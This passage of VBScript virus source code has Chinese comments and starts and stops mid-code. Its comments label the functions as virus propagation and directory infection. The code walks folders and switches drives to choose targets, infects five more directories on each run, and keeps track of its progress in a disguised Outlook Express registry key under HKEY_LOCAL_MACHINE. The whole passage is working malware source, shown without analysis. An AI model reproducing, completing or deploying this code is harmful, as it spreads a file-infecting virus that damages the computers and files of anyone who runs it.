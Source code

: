 ```vbscript
' 如果没有子目录了，就调用KJChangeSub返回上一级目录或者更换盘符，并将SubE置1 
If DicSub.Count = 0 Then 
LastIndexChar = InstrRev(CurrentString,"\",Len(CurrentString)-1) 
SubString = Mid(CurrentString,LastIndexChar+1,Len(CurrentString)-LastIndexChar-1) 
CurrentString = KJChangeSub(CurrentString,LastIndexChar) 
SubE = 1 
Else 
' 如果存在子目录 
' 如果SubE为0，则将CurrentString变为它的第1个子目录 
If SubE = 0 Then 
CurrentString = CurrentString & DicSub.Item(1) & "\" 
Exit Do 
Else 
' 如果SubE为1，继续遍历子目录，并将下一个子目录返回 
j = 0 
For j = 1 To FolderCount 
If LCase(SubString) = LCase(DicSub.Item(j)) Then 
If j < FolderCount Then 
CurrentString = CurrentString & DicSub.Item(j+1) & "\" 
Exit Do 
End If 
End If 
Next 
LastIndexChar = InstrRev(CurrentString,"\",Len(CurrentString)-1) 
SubString = Mid(CurrentString,LastIndexChar+1,Len(CurrentString)-LastIndexChar-1) 
CurrentString = KJChangeSub(CurrentString,LastIndexChar) 
End If 
End If 
Loop 
KJOboSub = CurrentString 
End Function 


' 函数：KJPropagate() 
' 功能：病毒传播 
Function KJPropagate() 
On Error Resume Next 
RegPathvalue = "HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\Degree" 
DiskDegree = WsShell.RegRead(RegPathvalue) 
' 如果不存在Degree这个键值，DiskDegree则为FinalyDisk盘 
If DiskDegree = "" Then 
DiskDegree = FinalyDisk & ":\" 
End If 
' 继DiskDegree置后感染5个目录 
For i=1 to 5 
DiskDegree = KJOboSub(DiskDegree) 
KJummageFolder(DiskDegree) 
Next 
' 将感染记录保存在"HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\Degree"键值中 
WsShell.RegWrite RegPathvalue,DiskDegree 
End Function 


' 函数：KJummageFolder(PathName) 
' 功能：感染指定目录 
' 参数： 
' PathName 指定目录 
Function KJummageFolder(PathName) 
On Error Resume Next 
' 取得目录中的所有文件集 
Set FolderName = FSO.GetFolder(PathName) 
Set ThisFiles = FolderName.Files 
HttExists = 0 
```
